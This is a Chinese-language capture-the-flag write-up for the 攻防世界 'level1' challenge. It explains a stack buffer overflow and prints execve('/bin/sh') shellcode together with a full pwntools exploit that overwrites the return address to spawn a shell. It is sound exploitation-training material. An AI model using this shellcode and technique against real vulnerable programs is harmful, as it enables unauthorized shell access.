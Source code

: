 # 攻防世界: level1

## **[目标]**
stack overflow,ROP

## **[环境]**
Ubuntu

## **[工具]**
gdb、objdump、python、pwntools, IDA

## **[过程分析]**

- 查看有哪些保护机制开启：


![](./pic.png)
- 没开canary，也没有开栈不可执行。


![](./pic/2.png)
- vulnerable_function()里可以进行溢出，我们可以在栈中填写shellcode，执行来拿到shell权限。这里我们使用一段执行execve ("/bin/sh")命令的语句作为shellcode。

```
shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode += "\x0b\xcd\x80"
```

- 同 level0,找到溢出点的位置。容易计算出PC返回值的覆盖点为140个字节。我们只要构造一个”A”*140+ret字符串，就可以让pc执行ret地址上的代码了。

- shellcode起始地址在哪呢？shellcode是通过输入buf的时候写入的，所以就是buf的地址，而buf的地址会在程序运行过程中给出.

- 此时shellcode的地址，溢出点和返回地址都有了，我们可以写出下面的exp：


```
from pwn import *

p = process("./level1")
s = p.readline()
padding = 0x88+4

shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode += "\x0b\xcd\x80"

addr = p32(int(s[len("What's this:"):-2],16))

payload = shellcode 
payload += 'A'*(padding-len(shellcode))
payload += addr

p.send(payload)

p.interactive()
```

## **[参考阅读]**

[一步一步学习rop-x64](https://segmentfault.com/a/1190000007406442)

[一步一步学习rop-x86](c)

[gdb的简单用法](https://blog.csdn.net/ll352071639/article/details/42304619)

[gdb查看内存命令](https://blog.csdn.net/yasi_xi/article/details/9263955)